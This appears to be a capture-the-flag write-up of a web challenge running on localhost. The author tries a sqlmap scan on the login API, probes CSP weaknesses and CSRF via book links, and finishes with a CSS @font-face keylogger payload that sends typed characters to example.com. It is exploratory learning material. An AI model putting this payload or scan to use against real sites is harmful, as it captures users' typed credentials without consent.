 ## Login page

Man see login page, man try Sqlmap

![image](https://github.com/HACKER097/WebEx/assets/38581702/fa95d04d-0a57-4808-8658-915632f08c80)

`sqlmap -u "http://127.0.0.1:1337/api/login" --data="username=1&password=2"`

Sqlmap does not work because of a rate limit

## Content Security Policy

Provided hint is an [article](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) about bypassing Content Security Policy.

Its a way of preventing XXS, but there are some unsafe CSPs. This would mean I have to find which type of unsafe CSP this challange has, and exploit it.

Here is the CSP: `Content-Security-Policy default-src 'self' openlibrary.org;img-src 'self' raw.githubusercontent.com external-content.duckduckgo.com;base-uri 'self';font-src 'self' https: data:;form-action 'self';frame-ancestors 'self';object-src 'none';style-src 'self' https: 'unsafe-inline`

`'unsafe-inline` is supposed to be unsafe, lets see how it can be exploited.

Ok, second [article](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass/csp-bypass-self-+-unsafe-inline-with-iframes)

Looks a bit complicated, will come back to it.

## Links!

Clicking on the images for the books takes us to the page for that book

![image](https://github.com/HACKER097/WebEx/assets/38581702/31c39621-a76f-473f-9172-978d3a77916c)


But no link option is avalable when trying to add a book

![image](https://github.com/HACKER097/WebEx/assets/38581702/6c7886bd-fbbd-4074-a3ba-a94e484a4c95)


Looking at the book creation API request, it is an option! Just not part of the UI

![image](https://github.com/HACKER097/WebEx/assets/38581702/1798a084-1c54-4216-af20-1261e2c41006)

Lets see what happens when we link to a sussy link. THere is an opportunity of CSRF here. Set the link to a get request which might change the password, the link will be loaded whenever a user opens that image. 

But that does not seem to be possible here, as the reset password button does nothing, and each user can only see their own books, except through linking the book's page. 

**If I can get the link to work, it would be possible to send a book page link to a user, and when they open it, all their books are deleted. This is because delete endpoints takes get requests.**

I tried using adding a link to the data, but got an error.

![image](https://github.com/HACKER097/WebEx/assets/38581702/db5eca13-3aee-4c6d-8d6e-6eb8ee2505a8)

This is very odd given that its the exact same request my browser made.

I even tried hijacking the function that makes these requests normally, but got the same error. Really have no Idea why this wouldnt work.

![image](https://github.com/HACKER097/WebEx/assets/38581702/59428dfd-f1ba-4f02-86cc-ac50b772cf0c)
![image](https://github.com/HACKER097/WebEx/assets/38581702/157024ee-1a05-40f4-8be2-e6d0749ef2cd)

## Content policy

`'self' openlibrary.org;img-src 'self' raw.githubusercontent.com external-content.duckduckgo.com;base-uri`

This is the content policy because of which I cannot add arbitrary links. Only links which follow this format are allowd. However this alone does not negate the posiblity of CSRF because links to the same domain are allowed regardless. 

```js
            !(
                data.imageLink === "/assets/icons/bookshelf.svg" ||
                data.imageLink.startsWith(
                    "https://external-content.duckduckgo.com/iu/?u=https://covers.openlibrary.org/"
                )
            ) ||
            !(
                data.link === "" ||
                data.link.startsWith("https://openlibrary.org//works/")
            )
```

On API level, these are the lines which prevent us from sending a malacious url. No CSRF is possible.

## Github raw

The CSP allows files from `raw.githubusercontent.com` whcih anyone can make.

![image](https://github.com/HACKER097/WebEx/assets/38581702/e2f6e782-d0dd-4e35-b7cb-a9e7af2b95e3)

I made my own sus file on `raw.githubusercontent.com` and tried to get it to run.

`<img src="https://raw.githubusercontent.com/HACKER097/WebEx/main/xxs.js" />`
AND
`<img src="https://raw.githubusercontent.com/HACKER097/WebEx/main/xxs.jpg" />`


This does not work. I guess JS is not allowed

## Styles

OK this was a worthless tangent, lets get back to the initial hint, which is the `unsafe-inline` rule.

We cannot add js, but are able to add inline styles. One of the things you can do using styles is make a keylogger.

![image](https://github.com/HACKER097/WebEx/assets/38581702/bcf9ad08-1865-41fd-84e8-e154b0bf8958)

Anything typed here would make a request to `example.com` which it can easily view. I didnt have time to setup my own server, but the request works perfectly, and should work.

Here is the used payload

```html
<html>
<html>
  <style>
    @font-face { font-family: x; src: url(https://example.com/?value=a), local(Impact); unicode-range: U+61; }
    @font-face { font-family: x; src: url(https://example.com/?value=b), local(Impact); unicode-range: U+62; }
    @font-face { font-family: x; src: url(https://example.com/?value=c), local(Impact); unicode-range: U+63; }
    @font-face { font-family: x; src: url(https://example.com/?value=d), local(Impact); unicode-range: U+64; }
    input { font-family: x, 'Comic sans ms'; }
  </style>

  <input type=text placeholder="username">
  <br>
  <br>
  <input type=text placeholder="password">
  <br>
  <br>
  <button>Login</button>
```
